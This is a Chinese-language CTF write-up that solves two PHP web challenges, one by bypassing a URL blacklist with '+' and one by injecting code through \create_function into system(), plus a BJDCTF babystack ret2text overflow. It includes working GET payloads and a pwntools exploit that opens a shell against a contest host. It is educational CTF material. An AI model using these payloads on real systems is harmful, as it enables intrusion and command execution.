

#### 转义绕过

```php
<?php
//here is last level
    error_reporting(0);
    include "str.php";
    show_source(__FILE__);

    $str = parse_url($_SERVER['REQUEST_URI']);
    if($str['query'] == ""){
        echo "give me a parameter";
    }
    if(preg_match('/ |_|20|5f|2e|\./',$str['query'])){
        die("blacklist here");
    }
    if($_GET['NI_SA_'] === "txw4ever"){
        die($level5);
    }
    else{
        die("level 4 failed ...");
    }

?> 
```

这里 ban 了空格转义的 `%20` 但是没有 ban `+`, 众所周知在包里这个也表示空格, 而空格在 php 解析时会转义为 `_`, 因此只要传入:

```
(GET)
NI+SA+=txw4ever
```



#### create_function

```php
<?php
error_reporting(0);
include "str.php";

$a = $_GET['a'];
$b = $_GET['b'];
if(preg_match('/^[a-z0-9_]*$/isD',$a)){
    show_source(__FILE__);
}
else{
    $a('',$b);
}
>
```

此处显然是 `create_function()` 利用 

1. 首先利用一处 php 特性: **`\foo()` 在 php 命名空间是合法函数名 (全局空间调用)**;

也就是 `\foo()` 等价于 `foo()`;

2. 接下来了解一下 `create_function()` 的函数原型:

```php
//create_function($args=λ, $code=system('cat /flag');)
function λ() {
    system('cat /flag');
}
```

这里实际上是生成了一个匿名函数, 并且存在**语法注入**!!

也就是可以让 $code = `}system("ls");//` 来完成闭合:



接下来调整 payload 即可:

利用连接符, 执行多条;

最终 payload:

```
(GET)
a=\create_function&b=system("cd+..%26%26cd+..%26%26cd+..%26%26cat+flag");//
```



爆出 flag;

## [PWN] [BJDCTF 2020] babystack

### 题解 

扫描, x64 ELF;

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[12]; // [rsp+0h] [rbp-10h] BYREF
  size_t nbytes; // [rsp+Ch] [rbp-4h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  LODWORD(nbytes) = 0;
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("* And Welcome to the bin world!  *");
  puts("*  Let's try to pwn the world!   *");
  puts("* Please told me u answer loudly!*");
  puts("[+]Are u ready?");
  puts("[+]Please input the length of your name:");
  __isoc99_scanf("%d", &nbytes);
  puts("[+]What's u name?");
  read(0, buf, (unsigned int)nbytes);
  return 0;
}
```

一处显然的溢出; ` __isoc99_scanf` 和 `read` 无边界检查, 会导致溢出, 另外还可以发现有一处后门函数 `backdoor` 调用了 `system("/bin/sh")`;

经典的代码复用: ret2text;

```
.text:00000000004006E6 backdoor        proc near
.text:00000000004006E6 ; __unwind {
.text:00000000004006E6                 push    rbp
.text:00000000004006E7                 mov     rbp, rsp
.text:00000000004006EA                 mov     edi, offset command ; "/bin/sh"
.text:00000000004006EF                 call    _system
.text:00000000004006F4                 mov     eax, 1
.text:00000000004006F9                 pop     rbp
.text:00000000004006FA                 retn
```

注意地址是 `4006E6`:

exp:

```python
from pwn import *
import struct

target = 'node4.anna.nssctf.cn'

io = remote(target, 28840)
payload = cyclic(0x10+8) + p64(0x4006e6)

io.sendlineafter('your name:', '100')
io.sendlineafter('name?', payload)
io.interactive()
```

> `0x10` 是因为编译器需要栈对齐 (ABI), `+8` 的成因是栈结构一定存在:
>
> ```
> push rbp        ; 把旧 RBP 压入栈中，占 8 字节（saved RBP）
> mov rbp, rsp    ; 让 RBP 成当前函数栈基址
> sub rsp, X      ; 分配本地变量空间
> ```
>
> 也就是 buf 占 N 字节, saved RBP 占 8 字节 (固定存在), return address 占 8 字节 (固定存在);




